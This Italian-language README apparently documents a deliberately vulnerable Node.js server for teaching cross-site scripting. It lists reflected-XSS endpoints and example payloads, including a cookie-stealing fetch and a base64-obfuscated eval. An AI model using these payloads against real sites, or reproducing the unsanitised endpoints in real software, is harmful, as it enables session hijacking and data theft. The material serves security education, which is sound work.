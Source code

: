 # XSS (Cross-Site Scripting) Vulnerability Demo

⚠️ **ATTENZIONE: Questa applicazione è intenzionalmente vulnerabile per scopi educativi!**

Questo server Node.js dimostra varie tipologie di vulnerabilità XSS (Cross-Site Scripting) in modo accademico, simile al server SQL Injection presente nella directory `SQLInjection/`.

## 🎯 Obiettivi Educativi

- Comprendere i diversi tipi di attacchi XSS
- Vedere come gli attacchi XSS possono compromettere sessioni e rubare dati
- Imparare l'importanza della sanitizzazione dell'input
- Dimostrare tecniche di exfiltrazione dati tramite XSS
- Mostrare vulnerabilità basate su header HTTP e token di sessione

## 🚀 Installazione e Avvio

```bash
# Installa le dipendenze
npm install

# Avvia il server
npm start

# Oppure usa nodemon per il development
npm run dev
```

Il server sarà disponibile su `http://localhost:3001`

## 🔴 Tipi di Vulnerabilità XSS Dimostrate

### 1. **Reflected XSS** (Non-Persistent)
Il payload viene eseguito immediatamente e "riflesso" nella risposta HTTP.

**Endpoint vulnerabili:**
- `GET /profile?name=<payload>`
- `GET /search?q=<payload>`

**Esempi di payload:**
```javascript
// Alert semplice
<script>alert('XSS')</script>

// Rubare cookie
<script>fetch('/steal-cookie?c='+document.cookie)</script>

// Image tag con onerror
<img src=x onerror=alert('XSS')>

// SVG con onload
<svg onload=alert(document.domain)>

// Base64 encoded
<svg/onload=eval(atob('YWxlcnQoJ1hTUycpOw=='))>
```
